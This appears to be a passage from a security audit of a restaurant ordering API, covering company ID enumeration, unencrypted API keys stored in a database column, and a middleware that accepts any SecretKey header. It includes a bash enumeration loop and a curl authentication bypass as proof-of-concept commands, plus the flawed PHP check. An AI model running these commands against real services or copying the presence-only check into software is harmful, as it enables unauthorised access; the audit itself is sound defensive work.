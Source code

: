 #### 🔴 CRITICAL #8: Company ID Enumeration
**Current State**: Database lookup before authentication
**Impact**: Attackers can enumerate valid company IDs
**Attack Vector**: Timing analysis and error messages

**Exploitation**:
```bash
# Test random company IDs to find valid ones
for id in $(seq 1 10000); do
  response=$(curl -s -o /dev/null -w "%{http_code}" \
    -H "company_id: $id" \
    https://api.restaurant.com/webhook)

  if [ "$response" == "401" ]; then
    echo "Valid company ID: $id"  # Different error message
  fi
done
```

#### 🔴 CRITICAL #9: API Key Storage in Database JSON
**Current State**: API keys stored in `settings` JSON column
**Security Issues**:
- Keys not encrypted at rest
- Visible in database dumps and backups
- Accessible to DBAs and support staff
- No audit trail for key access

### 2.3 CustomAuthOrder Middleware

**Location**: `/app/Http/Middleware/CustomAuthOrder.php`

```php
public function handle(Request $request, Closure $next): Response
{
    $SecretKey = $request->header('SecretKey') ?? $request->header('SecretKey');

    // CRITICAL VULNERABILITY #10: No validation whatsoever
    if (!$SecretKey) {
        return response()->json(["status" => "failed", "message" => 'SecretKey not found'], 401);
    }

    // ANY non-empty SecretKey is accepted!
    return $next($request);
}
```

#### 🔴 CRITICAL #10: Presence-Only Validation
**Current State**: Only checks if `SecretKey` header exists
**Impact**: ANY value in header grants access
**Exploitation**:
```bash
curl -X POST https://api.restaurant.com/order/details/123 \
  -H "SecretKey: literally_anything" \
  # Request succeeds with ANY value
```

---
